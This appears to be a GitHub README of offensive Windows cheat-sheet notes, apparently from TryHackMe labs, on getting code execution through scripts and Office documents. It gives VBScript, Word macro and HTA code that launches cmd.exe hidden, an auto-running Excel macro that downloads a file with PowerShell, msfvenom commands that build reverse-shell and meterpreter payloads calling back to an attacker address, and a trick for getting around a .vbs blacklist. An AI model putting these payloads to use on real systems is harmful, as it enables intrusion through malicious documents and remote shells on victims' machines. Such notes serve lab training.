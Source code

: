 # windowsVBscripting

#  VB script shell:
```vb
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\cmd.exe " & WScript.ScriptFullName),0,True
```
If .vbs is blacklisted run using wscript /e:VBScript with a rename to script.txt 

# Visual Basic 4 Apps 

### Word Macro shell:
```vb
Sub PoC()
	Dim payload As String
	payload = "cmd.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

### HTML application:

Also known as HTA, these are dynamic html pages host with a python3 -m http.sever 1337
```html
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```


OR
```bash
reverse shell with netcat
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```
OR 
```bash
metasploit: msfconsole -q
use exploit/windows/misc/hta_server
```

### Excel HTA

Excel HTA macro from THM Throwback

```vb
Sub HelloWorld()
    PID = Shell("powershell.exe -c Invoke-WebRequest -Uri https://ip/passwd -OutFile C:\passwd", vbNormalFocus)
End Sub

Sub Auto_Open()
    HelloWorld
End Sub
```
### Metasploit VBA

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=53 -f vba -o macro.vba
```
